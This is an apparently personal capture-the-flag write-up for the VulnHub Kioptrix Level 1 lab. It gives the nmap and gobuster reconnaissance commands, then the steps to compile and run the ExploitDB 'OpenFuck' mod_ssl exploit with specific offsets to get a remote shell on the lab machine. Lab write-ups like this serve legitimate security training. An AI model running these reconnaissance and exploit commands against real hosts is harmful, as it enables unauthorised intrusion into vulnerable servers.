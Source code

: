 ```yaml
---
layout: post
title: Kioptrix Level 1
---
```

[Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/#)

## Find IP of box
Our IP: x.x.x.49

```nmap -T5 <LHOST>/24```

Kioptrix is running on: x.x.x.104  

## Init NMap Scan

```nmap -sC -sV -oA nmap x.x.x.104```

 - Default Scripts
 - Service Detection
 - Output all formats

![Initial NMap Scan](/images/KioptrixL1/Nmap1.JPG)

We have 6 ports open: 22 (SSH), 80 (HTTP), 111 (rpcbind), 139 (netbios-ssn samba), 443 (ssl/https), 1024 (status)

I'm going to start by looking at the HTTP port

## HTTP - Port 80
### Gobuster

```gobuster dir -u http://x.x.x.104 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt -x php,html,txt,xml```

![Gobuster Results](/images/KioptrixL1/Gobuster1.JPG)

### Dirbuster
Ran gui Dirbuster in background for recursive search

Gave plenty more results but not much important info to be found

### Searchsploit

```searchsploit mod_ssl```

< 2.8.7 stands out as our version is 2.8.4

There are 3 results so a quick google of the name (OpenFuck) reveals the version we need is 47080.c (ExploitDB)

Reading through the exploit reveals we need to explain libssl-dev

```apt-get install libssl-dev```

It also explains how to compile

```gcc -o exploit 47080.c -lcrypto```

Now we need to find out how to use it properly, so run the script

```./exploit```

It presents us with:

```
: Usage: ./script target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
```
and a long list of supported offsets to place instead of 'target'

Ours is likely to be either 0x6a or 0x6b so we'll try 0x6a first

```./exploit 0x6a x.x.x.104 -c 40```

Unsucessful

```./exploit 0x6b x.x.x.104 -c 40```

It Works!

Note: It seemingly freezes for a bit by not producing an output but if we type in a command such as ```id``` and we get an output which shows we have a shell.

Note 2: If the above command doesn't work (i.e reaches ```spawning shell ... Good Bye!``` ), try deleting the compiled script and recompile and it should work fine
